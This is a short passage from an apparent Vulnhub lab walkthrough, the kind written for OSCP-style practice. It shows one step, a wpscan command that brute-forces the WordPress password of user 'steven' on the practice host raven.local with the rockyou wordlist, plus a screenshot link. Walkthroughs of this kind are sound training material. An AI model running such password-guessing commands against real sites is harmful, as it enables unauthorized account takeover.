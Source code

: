 test
Cracking user steven with wpscan tools

**Command : wpscan --url raven.local -usernames steven -passwords /usr/share/wordlists/rockyou.txt**

<img width="708" alt="image" src="https://github.com/psfauzi/Vulnhub_Like_OSCP/assets/49013900/5ee84fd3-b7e9-4677-81bf-120888c9125d">

